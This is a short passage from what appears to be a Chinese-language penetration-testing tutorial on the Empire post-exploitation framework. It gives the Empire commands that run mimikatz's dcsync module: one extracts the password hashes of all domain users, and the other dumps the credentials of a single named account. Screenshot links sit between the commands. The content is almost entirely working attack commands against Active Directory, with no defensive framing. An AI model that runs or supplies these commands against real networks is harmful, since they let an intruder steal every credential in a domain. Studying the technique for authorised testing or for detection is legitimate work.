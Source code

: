 ### Empire

提取域内所有用户 hash 值：

```bash
usemodule credentials/mimikatz/dcsync_hashdump
```

[![](assets/1706090550-9f1e95446caaa4c7f016ab5f47659b74.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124101028-be46580e-ba5d-1.png)  
dump 特定帐户信息：

```bash
(Empire: 8GLZTYXR) > usemodule credentials/mimikatz/dcsync
(Empire: powershell/credentials/mimikatz/dcsync) > set user Al1ex
(Empire: powershell/credentials/mimikatz/dcsync) > execute
```

[![](assets/1706090550-3547693ae63a1dc167dc092b9f6df8da.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124101058-d07f2d16-ba5d-1.png)

